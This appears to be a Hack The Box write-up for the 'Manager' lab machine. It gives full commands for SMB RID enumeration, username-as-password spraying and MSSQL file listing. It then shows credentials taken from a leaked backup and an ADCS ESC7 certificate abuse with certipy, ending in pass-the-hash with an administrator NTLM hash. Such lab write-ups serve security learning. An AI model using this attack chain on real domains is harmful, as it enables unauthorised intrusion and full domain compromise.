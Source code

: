 # [Manager](https://app.hackthebox.com/machines/manager)

```bash
nmap -p- --min-rate 5000 10.10.11.236 -Pn
```

![alt text](img/image.png)


After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.236 -Pn
```

![alt text](img/image-1.png)


From nmap scan result, let's add `manager.htb` and `dc01.manager.htb` domain names into `/etc/hosts` file for resolving purposes.


Let's enumerate `SMB` shares via `smbmap` command for `anonymous` user.

```bash
smbmap -H 10.10.11.236 -u 'anonymous'
```

![alt text](img/image-2.png)


I have read access to `IPC$` share, that's why I can run `lookupsid.py` script of `Impacket` module to get possible usernames.
```bash
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@manager.htb -no-pass
```

![alt text](img/image-3.png)


Possible usernames are located here.

```bash
administrator
guest
krbtgt
dc01$
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```


Let's check usernames and their passwords via `crackmapexec`.

```bash
crackmapexec smb manager.htb -u users -p users --continue-on-success --no-brute
```

![alt text](img/image-4.png)


Let's try to connect into `MSSQL` via this credentials. For checking this, I will use `crackmapexec`.

```bash
crackmapexec mssql manager.htb -u operator -p operator
```

![alt text](img/image-5.png)


Let's connect into `MSSQL` via `mssqlclient.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth manager.htb/operator:operator@manager.htb
```

![alt text](img/image-6.png)


Let's use `xp_dirtree` command to enumerate files and directories.

![alt text](img/image-7.png)


Let's download backup `.zip` file via `wget` command.
```bash
wget http://manager.htb/website-backup-27-07-23-old.zip
```

![alt text](img/image-9.png)

I find `.old-conf.xml` file which contains sensitive credentials.

![alt text](img/image-8.png)


raven: R4v3nBe5tD3veloP3r!123


Let's use this credentials to login into machine via `evil-winrm` command.
```bash
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

user.txt

![alt text](img/image-10.png)


For `Privilege Escalation`, let's enumerate `ADCS` (Active Directory Certificate Services).

First of all, I will use `crackmapexec ldap` to identify `ADCS` for domain controller.

```bash
crackmapexec ldap manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs
```

![alt text](img/image-11.png)



Let's use `certipy find` command to find `vulnerable` certificate template.
```bash
certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```

![alt text](img/image-12.png)


Let's abuse `ESC7` vulnerability. For this, I look at this [blog](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc7)


```bash
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![alt text](img/image-13.png)


Let's start attack.

```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![alt text](img/image-14.png)


As because, we need to specify `issue-request` id.

```bash
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![alt text](img/image-15.png)


Now, we can get `administrator.pfx` file.
```bash
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```

![alt text](img/image-16.png)


Let's get hash of `administrator` via `certipy auth`.
```bash
certipy auth -pfx administrator.pfx -dc-ip manager.htb
```

![alt text](img/image-17.png)


**Reminder!** Don't forget `ntpdate` command to solve `Clock-skew` problems.


Let's authenticate into machine via `Pass-The-Hash` attack by using administrator's `NTLM` hash.

```bash
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```


root.txt

![alt text](img/image-18.png)



**Note:** Also, we need to pay attention `.ccache` file which is generated automatically while we make `certipy auth` cmdlet.

We can join into machine via this `.ccache` file (TGT) by using `wmiexec.py` script of `Impacket` module.

```bash
KRB5CCNAME=administrator.ccache klist
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass administrator@dc01.manager.htb
```


root.txt

![alt text](img/image-19.png)